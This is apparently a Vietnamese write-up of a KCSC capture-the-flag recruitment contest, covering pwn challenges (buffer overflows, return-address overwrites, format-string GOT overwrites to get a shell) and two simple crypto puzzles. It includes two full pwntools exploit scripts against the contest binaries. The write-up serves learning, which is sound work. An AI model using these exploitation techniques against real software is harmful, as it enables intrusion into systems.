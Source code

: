 ## TUYỂN THÀNH VIÊN KMA 16/01/2022
## I.PWN

<details>
<summary>1. Cat </summary>
	
**Tóm tắt đề :**
Một địa chỉ để kết nối bằng netcat : `nc 146.190.115.228 9994`
Một file *cat* để chạy trên linux

**Ý tưởng :**
- Đầu tiên mình sử dụng terminal kết nối với địa chỉ trên, nhận thấy yêu cầu nhập username và password
![](https://i.imgur.com/dG0sl79.png)
- Để hiểu rõ hơn về cách server check 2 yếu tố trên nên mình sài ghidra để decompile file cat

![](https://i.imgur.com/3Zf5DJr.png)

- Sau đó mình vào main để đọc code và nhận thấy chương trình hoạt động như sau:
	1.  Mở file flag từ server -> nhập username, pasword -> so sánh username với "KCSC_4dm1n1str4t0r" , password với "wh3r3_1s_th3_fl4g"
	Chỗ password của thằng ghidra nó không ghi thẳng ra cho mình mà mình phải tự dịch đoạn hex này ra :

	 [![https://i.imgur.com/MGd2eIH.png](https://i.imgur.com/MGd2eIH.png "https://i.imgur.com/MGd2eIH.png")](https://i.imgur.com/MGd2eIH.png "https://i.imgur.com/MGd2eIH.png")

	2. Sau khi check xong sẽ yêu cầu nhập xâu secret với độ dài 512 ký tự rồi xuất ra. Nhận thấy có mùi buffer overflow đâu đây vì nếu nhập xâu lớn hơn độ dài trên thì khi xuất ra sẽ có nguy cơ tràn qua biến chứa flag -> bắt đầu khai thác
- Mình làm theo ý tưởng trên và thu được flag `KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}`

![](https://i.imgur.com/1BL4A1H.png)

</details>

<details>
<summary>2. Treasure</summary>
	
**Tóm tắt đề :**
Đề cho một file *treasure* để chạy trên linux

**Ý tưởng :**
- Mình tải về sau đó chạy thử thì ra part 1 :
![](https://i.imgur.com/KcmheSj.png)

- Mình thử đưa vào IDA và thu được part 2

![](https://i.imgur.com/F34bUVe.png)

- Part 3 thì mình sài strings trong terminal của linux thử coi có flag không (ai ngờ có thiệt)

![](https://i.imgur.com/ZstQv88.png)

- Ghép lại ta được flag là `KCSC{4_t1ny_tr34sur3_27651d2df78e1998}`

</details>

<details>
<summary>3. overthewrite</summary>

**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề:**
1 file overthewrite để chạy trên linux

**Ý tưởng:**
- Đầu tiên mình sài ida decompile để có pseudocode

![](https://i.imgur.com/zEC752E.png)

- Nhìn qua ta thấy được control flow như sau : Nhập key -> check lần lượt các biến v9,v8,v7,s1 -> nếu khác trong quá trình check sẽ thoát ra -> nếu đúng hết sẽ có được shell.
- Do đó để có được shell ta cần cho các biến v9,v8,v7,s1 lần lượt bằng `0x13371337`,` 0xDEADBEEFCAFEBABE`,`0x215241104735F10F`,`Welcome to KCSC`
- Dựa vào source ta thấy biến buf chỉ có 32 byte mà nhập tới 80 byte -> buffer overflow
- Dựa vào ida ta có thứ tự các biến trong stack như sau: 

![](https://i.imgur.com/w0L7xHw.png)

- Do đó ta sẽ viết script để khai thác

![](https://i.imgur.com/j69oMBZ.png)

- Chạy thử script trên ta bị lỗi. Để hiểu rõ hơn ta sẽ debug

![](https://i.imgur.com/KdK5cQK.png)

- Nhìn hình trên ta thấy tại `0x007fff0563c490` tức `rsp + 20h` hay biến s1 ta có đc hex `0x20656d6f636c6557` decode qua sẽ thu được string `  emocleW` (đảo ngược do little endian)
- Tiếp theo tại `0x007fff0563c498` tức `rsp + 28h` hay biến v6 ta có được hex `414353434b206f74 ` tức là string `ACSCK ot`. Ủa tại sao sai? Hàm strcmp hoạt động như thế nào?. Ta sẽ phân tích hàm strcmp.
- Hàm strcmp sẽ so sánh từng ký tự trong string này với từng ký tự trong string kia đến khi nào gặp ký tự thông báo hết string hoặc string này dài hơn string kia sẽ dừng. Ký tự báo hết string đó chính là` \0`. Do ta đã overflow qua biến v6 nên hàm nó cứ tiếp tục so sánh mà không có ký tự dừng nên dẫn đến sai. Do đó ta sẽ dành 1 byte để encode ` \0`
- Sửa lại script ta đã có được shell

![](https://i.imgur.com/x1IXSgb.png)

</details>

<details>
<summary>4. TheLastOne</summary>
	
**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề:**
- Một file thelastone để chạy trên linux

**Ý tưởng:**
- Đầu tiên mình sài ida để decompile file ra

![](https://i.imgur.com/8t9GrbK.png)

- Nhận thấy control flow của chương trình như sau: Nhận input từ người dùng, tuỳ vào input(1->6) rồi xử lý tương ứng
- Sau đó mình vào từng case để xem:
+ Case 1: gọi hàm` set_name` và set input bằng hàm read_str. Mình đã xem code mẫu của hàm read_str nhưng khá khó hiểu nên tạm thời bỏ qua case này.
+ Case 2: gọi hàm `get_name` và in ra tên. Tạm thời chưa có gì đặt biệt
+ Case 3: gọi hàm `find_food`. Hàm này để vào làm rối thôi chứ không làm gì đặc biệt.
+ Case 4: gọi hàm  `kill_zombie`. Hàm này mỗi lần kêu thì sẽ trừ biến đếm. Có nguy cơ tràn biến nhưng chưa thấy gì đặc biệt
+ Case 5: gọi hàm ` find_survivor`. Hàm này bị overflow vì tạo v1 76 byte nhưng khi nhập tới 88 byte (maybe ???)

![](https://i.imgur.com/MoJHe1G.png)

-> Kết luận: sẽ đi khai thác hàm `find_survivor` vì hàm này đang tình nghi số 1, sẽ thử các case khác khi bí.
- Quan sát thấy có 1 hàm không được gọi ở đâu hết là `unknown`. Hàm này sẽ lấy shell. Vậy ta sẽ lợi dụng buffer overflow để chuyến hướng hoạt động của chương trình vào hàm này
- Cùng sài gdb để debug. Ta sẽ đặt breakpoint ở `nop` của hàm `find_survivor`.  Sau đó ta `run`, chọn 5 rồi tạo input 88 chữ A coi thử tràn tới đâu.

![](https://i.imgur.com/L1NrtOU.png)

- Sau đó ta `ni` đến chỗ `ret` rồi dừng ở đây, ta xem thử stack. Nhận thấy vẫn 	chưa tràn qua tới địa chỉ mà `rip` đang trỏ tới

![](https://i.imgur.com/wuGcWH5.png)

- Debug lại chương trình và lần này input 92 byte (4 byte để ghi địa chỉ, 88 byte padding). Nhận thấy chương trình trả lại 3 ký tự tức là input là 89 byte. Vậy ta chỉ có thể lợi dụng byte cuối để ghi đè thành địa chỉ của hàm `unknown`

![](https://i.imgur.com/2pQUXqB.png)

- Tới đây ta lấy địa chỉ của hàm `unknown` và địa chỉ ret trong ô nhớ kia so sánh. Vì cần phải khác 1 byte cuối mới gọi được hàm `unknown`

![](https://i.imgur.com/urwhI2I.png)

- Đúng là chỉ khác 1 byte cuối, vậy thì tiếp theo ta `disass unknown` để xem nên đưa vào đâu tránh lỗi `xmm0`. Ở đây mình chọn `6f` là byte cuối.

![](https://i.imgur.com/g8U9C4o.png)

- Đến đây ý tưởng đã hoàn thành và ta viết script để khai thác.

![](https://i.imgur.com/ExAGOip.png)

- Chạy và ta có được shell.

![](https://i.imgur.com/54cXeGL.png)

</details>

<details>
<summary>5. ShortJumps</summary>

**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề:**
- 1 file shortjumps để chạy trên linux

**Ý tưởng:**
- Đầu tiên mình sài ida để decompile file 32 bit nhưng không được vì sài bản lậu =)), nên mình đã sài ghidra nhưng nó đưa code tạp nham quá do đó mình sài binary ninja để coi thêm.

![](https://i.imgur.com/dNyoxvc.png)

- Nhận thấy control flow của chương trình như sau: nhập tên -> nhập Y/n -> nhập dream. Đơn giản chỉ vậy
- Tiếp theo mình coi từng biến thì nhận thấy biến `local_80` này bị buffer overflow do khai báo có 80 byte mà sài tới 140 bytes

![](https://i.imgur.com/A9CISV7.png)

- Bên cạnh đó còn có 2 hàm khai báo nhưng không được gọi trong chương trình là` jmp1` và` jmp2` . Check thử từng hàm thì thấy biến `jmp` sẽ tăng lên 1 nếu đầu vào là `0xdeadbeef`, hàm `jmp2` đòi `jmp` phải là 1 mới cho shell. do đó ý tưởng hiện tại sẽ là overwrite ret address trên stack bằng biến ` local_80`. Thứ tự nhảy sẽ là jmp1 - > jmp2. Ta sẽ triển khai ý tưởng trên
- Đầu tiên ta debug bằng gdb để lấy offset. Ta sẽ input full 140 byte. Khi chạy tới ret ta xem `esp` trên stack trên địa chỉ đang trỏ về string `gaabhaabiaabjaab` ta sẽ tìm ra offset là 124. Vậy ta cần fill 124 byte trước khi gửi địa chỉ để ret vào.

![](https://i.imgur.com/B1N1xCr.png)

- Sau đó ta đi tìm địa chỉ của `jmp1`, sẵn tìm `jmp2` luôn. Ta được địa chỉ của jmp1 và jmp2 lần lượt là `0x80492b4` và `0x80492e0`

![](https://i.imgur.com/ZpvhBqJ.png)

- Tiếp theo ta viết script để khai thác rồi debug tiếp.  Nhận thấy hàm đã ret thành công sang `jmp1`

![](https://i.imgur.com/itbP1z6.png)
![](https://i.imgur.com/WEmTHGF.png)

- Nhận thấy ta cần fill thêm 4 bytes nữa để so sánh với `0xdeadbeef`, ta sẽ sửa lại code.

![](https://i.imgur.com/DRikHKu.png)
![](https://i.imgur.com/td2k679.png)

- Lại đi debug tiếp, lần này ta thấy đã thành công so sánh nhưng lại cần phải sài thêm 4 byte để ghi ret chuyển tiếp qua `jmp2`

![](https://i.imgur.com/zEyqYyC.png)

- Ta lại thấy `esp` lúc này lại chính là 4 chữ A mới fill trong script. Tới đây biến payload đã là 140 byte không thể overflow gì thêm, do đó khi gọi hàm `jmp2` sẽ không thể làm gì được. Ta cần chính lại ý tưởng là `jmp1 -> main -> jmp2`

![](https://i.imgur.com/zEyqYyC.png)

- Đổi script 4 chữ A lại thành địa chỉ `main`, cùng với lặp lại quá trình tương tự để nhảy qua `jmp2`. Tới đây việc tìm offset tương tự `jmp1`, riêng việc tính toán để có bài toán như sau:

![](https://i.imgur.com/868FouH.png)

- Ta sài microsoft calculator để tính bằng hex =)). Sau đó encode lại và gửi bằng script.

![](https://i.imgur.com/AKv6XJr.png)
![](https://i.imgur.com/VIfe9AM.png)

- Chạy và ta có được shell 

![](https://i.imgur.com/BiAWGrz.png)


</details>

<details>
<summary>6. FMT XMASTER</summary>
	
**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề :**
- file `chall`
- file ` ld-linux-x86-64.so.2`
- file `libc.so.6`

**Ý tưởng :**
- Đầu tiên ta sài lệnh `pwninit` để tự tạo file mới liên kết với `libc` và `linker` đề cho
- Kế tiếp ta decompile bằng IDA

![](https://i.imgur.com/1DT0YEP.png)

- Chương trình chạy như sau: random 2 số `v6` và `buf`, yêu cầu nhập `v7`, nếu `v6 + buf = v7` thì có shell. Bên cạnh đó bài cũng có lỗi format string chỗ kêu nhập tên.
- Tiếp theo ta checksec. Nhận thấy có Partial RELRO, no PIE và đây là file 64 bit nên ta có thể overwrite GOT bằng format string. 

![](https://i.imgur.com/Vj5tGXQ.png)

- Ý tưởng hiện tại như sau: chuyển exit(0) thành main thực thi hàm main lần 2, lần 2 thì overwrite printf thành system, lần 3 thì nhập /bin/sh để lấy shell. 
- Việc có no PIE sẽ giúp ta làm GOT đơn giản nhiều do khi lấy địa chỉ mà plt reference qua luôn tĩnh => Lấy luôn cái tĩnh đó sài khỏi leak libc (bài này mình gdb thấy offset của got không đổi đối với vài hàm) hay leak exe.

![](https://i.imgur.com/zBISpBM.png)

- Hay nói cách khác ở địa chỉ `0x404030` luôn reference qua `0x401060`. Cái `0x401060` sẽ thay đổi nếu trước đó hàm `printf` đã được gọi (do plt update) nhưng `0x404030` sẽ luôn giữ nguyên khi chạy chương trình bất cứ lúc nào. 
- Ta viết script cho lần chạy đầu như sau :
![](https://i.imgur.com/cfZcNJ7.png)
- Mình` ljust 0x20` vì cop code cũ bê qua lười sửa =)) chứ thật ra padding sao cho địa chỉ cần ghi nằm trọn trong 1 ô nhớ 8 byte là đủ. Mình overwrite địa chỉ `0x404058` tức là `exit`  thành địa chỉ của `main`

![](https://i.imgur.com/v8ih8jV.png)

- Tới vòng lập thứ 2 thì mình chuyển cái địa chỉ `0x404030` của `printf` thành địa chỉ của `system`. Ở đây mình ghi 4 byte cuối của `printf` trước rồi `0x404030 + 4` để ghi 2 byte đầu. Quá trình tìm offset cũng tương tự trên thôi do chép chung 1 code =)).

![](https://i.imgur.com/rlKz9Y1.png)

- Lần thứ 3 thì nhập `/bin/sh` rồi ghi đại cái đoán kia thôi vì trước sau cũng lấy được shell rồi.

![](https://i.imgur.com/OpjZvfT.png)

- Script :
``` python

from pwn import * 
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

printf_add = 0x401060
exit_add = 0x4010b0
system_add = 0x401050
main_add = exe.sym['main']

p = process(exe.path)

payload = f'%{main_add}c%16$n'.encode() 
payload = payload.ljust(0x20,b'A')
payload += p64(0x404058)
p.sendlineafter(b'your name:\n',payload)
p.sendlineafter(b'a gift:\n',b'5')

payload=b'%16$hn'
payload += f'%{system_add}c%17$n'.encode()
payload = payload.ljust(0x20,b'A')
payload += p64(0x404030+4) 
payload += p64(0x404030) 
p.sendlineafter(b'your name:\n',payload)
p.sendlineafter(b'a gift:\n',b'5')

p.interactive()

```
</details>
<details>
<summary>7. XFmasTreeXFmasTree</summary>
	
**Tóm tắt đề :**

- 1 file `chall`
- 1 file  `ld-linux-x86-64.so.2`
- 1 file `libc.so.6`

**Ý tưởng :**

-  Đầu tiên ta sài lệnh `pwninit` để tự tạo file mới liên kết với `libc` và `linker` đề cho
- Kế tiếp ta decompile bằng IDA

![](https://i.imgur.com/yyuXc8R.png)

- Chương trình hoạt động như sau : chọn option rồi thực hiện. Trong đó ta chỉ quan tâm tới option 1 vì cái thứ 2 bịp =)). Ở đây có lỗi format string trong hàm `payload`

![](https://i.imgur.com/7EYxpHL.png)

- Kế tiếp ta `checksec`. Nhận thấy có Partial RELRO, no PIE và đây là file 64 bit nên ta có thể overwrite GOT bằng format string. 

![](https://i.imgur.com/Ualkoc5.png)

- Riêng bài này thì ta sẽ leak `libc` để tính offset, khỏi leak exe vì exe static do `no PIE`. Vậy ý tưởng sẽ như sau : chạy lần 1 leak `libc` -> chạy lần 2 overwrite `printf` thành `system` và lần 3 lấy shell
- Ta viết script khúc đầu như sau: 

![](https://i.imgur.com/hkBONkW.png)

- Mình leak ở 37$p vì sau 36 địa chỉ kể tử stack, đây là địa chỉ của `__libc_start_call_main`. Mình trừ cho 171408 vì đây là offset của cái địa chỉ mới leak kia tới base

![](https://i.imgur.com/YMHQp4V.png)

- Tiếp theo ta chuyển `printf` thành `system`. Việc tính offset thì sài gdb rồi soi tương tự bài kia thôi.

![](https://i.imgur.com/jsUREJo.png)

- Lần chạy cuối cùng nhập /bin/sh để lấy shell

![](https://i.imgur.com/9pgGhon.png)

- Script :

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")


p = process(exe.path)
p.sendlineafter(b'>> ',b'1') 
p.sendlineafter(b'Enter your payload: ',b'%37$p')
p.recvuntil(b'submitted\n')
libc_leak = int(p.recvline()[:-1],16)
libc.address = libc_leak - 171408 
printf_add = exe.got['printf']
print('libc_leak: ',hex(libc_leak))
print('calculated libc address: ',hex(libc.address))
print('printf got address: ',hex(printf_add))
print('system address : ',hex(libc.sym['system']))

p.sendlineafter(b'>> ',b'1') 
part1 = libc.sym['system'] & 0xff
part2 = libc.sym['system'] >> 8 & 0xffff
payload = f'%{part1}c%10$hhn'.encode()
payload += f'%{part2-part1}c%11$hn'.encode()
payload = payload.ljust(0x20,b'L')
print(payload)
payload += p64(printf_add) + p64(printf_add+1)
p.sendlineafter(b'Enter your payload: ',payload)
p.interactive()

```

</details>



## II.Crypto
<details>
<summary>1.Tet_is_ya_best</summary>
	
**Tóm tắt đề :**
Đề cho file *output.txt*

**Ý tưởng :** 

- Mình tải file về xem thử, sau đó lên https://www.dcode.fr/cipher-identifier check xem mã hoá gì

![](https://i.imgur.com/SH1795U.png)

- Thử lần lượt từng cái trong phần suggestions, nhận thấy bên Mono-alphabetic Substitution cho ra kết quả đọc được -> có luôn flag là
`KCSC{TET_TET_TET_TET_DEN_ROI__CHUC_CAC_BAN_NAM_MOI_THAT_NHIEU_SUC_KHOE__LUV_FROM_LULUUUUUUUUUUUU}`
Ngặc cái đề thay thế chữ thường mà trang này decode ra in hoa nên mình chuyển lại chữ thường mà giữ nguyên in hoa KCSC khúc đầu
Flag là `KCSC{tet_tet_tet_tet_den_roi__chuc_cac_ban_nam_moi_that_nhieu_suc_khoe__luv_from_luluuuuuuuuuuuu}`

![](https://i.imgur.com/9TvNvRL.png)

</details>
<details>
<summary>2.ezenc</summary>

**Tóm tắt đề :**
Đề cho file *chall.txt*

**Ý tưởng :**
- Bài này thì mình cũng tải file về xem thử nhưng lần này vô thử cyberchef làm cho nhanh
- Mình chọn depth = 10 và known text là KCSC thì ra luôn flag là `KCSC{Encoding_Is_Cool!!!}`


![](https://i.imgur.com/IIn5C3s.png)


</details>
